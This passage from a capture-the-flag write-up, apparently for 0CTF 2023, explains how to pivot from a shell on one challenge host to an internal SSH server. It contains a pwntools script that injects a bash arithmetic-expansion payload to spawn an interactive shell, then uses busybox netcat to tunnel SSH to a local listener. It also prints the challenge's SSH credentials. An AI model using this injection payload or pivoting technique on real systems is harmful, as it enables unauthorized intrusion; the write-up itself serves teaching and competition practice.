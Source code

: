 So we need to SSH into host `second` using username `ctf` and password `x5kdkwjr8exi2bf70y8g80bggd2nuepf`.
But busybox is not compiled with SSH and the filesystem is readonly, so we can't put a static ssh binary.

**Trick**: We can use netcat (as part of busybox) to open a direct connection: `/bin/busybox nc $secondIp 22`.

How do we get the IP of second? Initially we guessed (based on ifconfig), but we can also use `wget` to show the IP:

```
$ busybox wget second
Connecting to second (10.10.20.2:80)
wget: can't connect to remote host (10.10.20.2): Connection refused
```

### Solution for level 2

```python
from pwn import *

# nc -X connect -x instance.0ctf2023.ctf.0ops.sjtu.cn:18081 89xergbg93m6vbfj 1
r = remote('instance.0ctf2023.ctf.0ops.sjtu.cn', 18081)
r.send(b'CONNECT hqgbfqxkptyxjmj9:1 HTTP/1.0\r\n\r\n')
r.recvline() # b'HTTP/1.1 200 OK\r\n'
r.recvuntil(b'Now, write down the exam integrity statement here:\n')

r.send(b"I promise to play fairly and not to cheat. In case of violation, I voluntarily accept punishment\n")

r.recvuntil(b'1 + 1 = ?\n')

r.send(b"a[$(bash -c 'bash -i 1>&2')]\n")
r.recvuntil(b'bash: no job control in this shell\n')

#r.send(b"busybox wget second\n")
#r.recvuntil(b'inet 10.')

r.send(b"busybox nc 10.10.222.5 22\n")
r.recvline()  # b'bash-5.1$ busybox nc 10.7.40.5 22\n'

l = listen(2222)
print("ssh ctf@localhost -p2222")
svr = l.wait_for_connection()
svr.connect_both(r)
```

This will:
 * Use pwntools to open a shell to level 1
 * Use netcat to connect the _level 1 shell_ to _level 2 SSH server_
 * Wait for a connection on localhost (attacker)
 * Connect local connection stdin to remote connection stdin (and vice versa for stdout)
